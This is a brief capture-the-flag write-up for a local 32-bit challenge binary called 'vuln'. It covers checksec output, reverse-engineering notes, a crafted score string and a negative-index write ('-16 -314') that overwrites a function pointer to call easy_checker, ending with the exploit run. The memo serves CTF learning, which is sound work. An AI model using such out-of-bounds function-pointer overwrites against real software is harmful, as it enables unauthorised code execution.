


# Memo
1. check  
    ```zsh
    $ file vuln
    vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=8b6f3ccbb344c3ba91ef077e29c8ab9d6e2da011, for GNU/Linux 3.2.0, not stripped
    $
    $ checksec --file=./vuln --output=json | jq .
    {
      "./vuln": {
        "relro": "partial",
        "canary": "no",
        "nx": "yes",
        "pie": "no",
        "rpath": "no",
        "runpath": "no",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "2"
      }
    }
    ```

2. ghidra

3. understand the logic  
- arg1  
  To break through, arg1 should be "}}}}}}}}}}W".
  ```c
  ...
  if (calculate_story_score(story, len) == 1337)
  ...
  ```
  ```
  } ... 125
  W ... 87
  "}" * 10 + "W" = 125 * 10 + 87 = 1337
  ```
  input : }}}}}}}}}}W
- arg2  
  This part can be used to change an address for calling a function.
  ```c
  ...
  fun[num1] += num2;
  ...
  ```
    - a function address called currently  
      ```
      0804c040 36  94  04  08    addr                 hard_checker ... 08049436
      ```
    - another function I want to call  
      ```
      0804c040 fc  92  04  08    addr                 easy_checker ... 080492fc
      ```
  A status where I change an address.  
  
  How to calc each input value.  
  
  input
  ```
  -16 -314
  ```

4. exploit
    ```zsh
    $ ./vuln
    Tell me a story and then I'll tell you if you're a 1337 >> }}}}}}}}}}W
    On a totally unrelated note, give me two numbers. Keep the first one less than 10.
    -16 -314
    Please create 'flag.txt' in this directory with your own debugging flag.
    ```